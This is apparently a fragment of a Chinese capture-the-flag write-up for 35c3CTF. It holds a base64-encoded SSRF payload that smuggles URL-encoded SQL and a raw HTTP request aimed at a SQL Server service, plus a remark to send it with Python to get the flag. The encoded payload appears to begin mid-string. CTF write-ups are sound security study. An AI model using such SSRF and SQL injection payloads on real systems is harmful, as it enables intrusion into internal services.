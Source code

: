 ```php
TAwZyUwMC4lMDBmJTAwbCUwMGElMDBnJTAwJTI5JTAwJTJDJTAwJTIyJTAwdCUwMGUlMDBzJTAwdCUwMCUyMiUwMCUyOSUwMCUzQiUwMCUzQiUwMC0lMDAtJTAwJTIw
JTAwLSUwMCBIVFRQLzEuMQpIb3N0OiBsb2NhbGhvc3QKCiI7fX0=
```

用python发送这个base64解码之后的content,就可以打到flag了。


去年34c3CTF的时候出SSRF打mysql，35c3CTF的时候出SSRF打sql server 。c3CTF真是太真实了，大胆猜一下，明年打哪个数据库？  
